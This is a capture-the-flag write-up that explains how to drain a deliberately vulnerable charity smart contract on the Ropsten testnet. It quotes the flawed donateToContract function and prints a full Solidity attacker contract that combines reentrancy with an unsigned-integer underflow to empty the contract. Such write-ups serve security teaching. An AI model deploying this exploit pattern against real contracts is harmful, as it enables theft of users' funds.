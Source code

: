 # Writeup - Velgørenhed (Blockchain - Underflow & Reentrency)
## We are presented with a link to a website that deploys a contract on the Ropsten testnet. We are given the source code to the smart contract and a contract address. Our goal is to empty the contract for funds.
![CTF objective](https://github.com/Super02/ctf-writeups/blob/main/Velg%C3%B8renhed/Screenshot%202022-05-10%20213040.png)
![Source code](https://github.com/Super02/ctf-writeups/blob/main/Velg%C3%B8renhed/Screenshot%202022-05-10%20213051.png)
We are first going to take a look at the smart contract to look for any potential vulnurabilites. When looking through the smart contract (either by hand or by using a tool like ![slither](https://github.com/crytic/slither)) you may notice the function donateToContract.
```javascript
   function donateToContract(uint amount) public payable{
        require(amount <= donatorBalance[msg.sender], 'Insufficient balance');
        require(!donatedToContract[msg.sender], 'Can only donate to contract once!');
        donatedToContract[msg.sender]=true;
        charityBalance[address(this)] += amount;
        msg.sender.call{value: 0}("Thanks for your donation.");
        donatorBalance[msg.sender] -= amount;        
   }
```

What is interesting about this function is that it does a call before setting the donaterBalance. This allows us to create a fallback that executes code and changes the state of the contract before the last line of code is executed in the function. The idea behind this is to change donatorBalance to a value lower than the variable amount. Doing this will create a underflow. And since donatorBalance is a uint (unsigned integer) it will wrap around giving us an insanely high donatorBalance.

#### Execution
To execute the smart contract functions we are going to use ![Ethereum remix](https://remix.ethereum.org/). We are going to create two files. A attack.sol and a file named charity.sol. The charity file contains the source code of the smart contract. While the attack.sol is something we have to write ourselves.

##### Creating attack.sol
Looking onlien we can find examples of reentrency attacks. If we modify these examples we can use them here. We create a attack function that first executes the deposit function to deposit 0.1 ether. When we have deposited the ether we can then execute the vulnurable donateToContract function. We then have a fallback function that runes right before the donatorBalance is changed giving us an opportunity to withdraw our 0.1 ether. This leaves the donatorBalance at 0 untill after our fallback function is done executing as the donateToContract function executes the last line of code subtracting 0.1 ether from our donatorBalance that is 0. This create a underflow as 0 - 0.1 would be a negative value thus wrapping the unsigned integer around giving us a large donatorBalance.
```javascript
pragma solidity 0.7.4;

import './charity.sol';

contract Attacker {
    Charity public charity;
    bool firstcall = true;
    
    constructor(address _etherBankAddress) {
        charity = Charity(_etherBankAddress);
    }
    
    function attack() public payable {
        firstcall = true;
        charity.deposit{ value: 1000000000000000 wei}();
        charity.donateToContract(1000000000000000 wei);
        charity.withdraw();
    }

    fallback() external payable {
        if(firstcall == true) {
            firstcall = false;
            charity.withdraw();
    }}
    
    function getBalance() public view returns(uint) {
        return address(this).balance;
    }
}
```

#### Withdraw
Now that our donatorBalance is a very high value we just use the withdraw function to withdraw. The withdraw function is set to withdraw all funds of the account even though we have a higher donatorBalance than the actual balance of the account.

#### Results
When we have withdrawn the funds from the contract we are left with an empty contract. This meets the goal set in the challenge. So we just go back and click on the button called "Check solved". This will give us our flag.
![Results](https://github.com/Super02/ctf-writeups/blob/main/Velg%C3%B8renhed/Screenshot%202022-05-10%20213021.png)
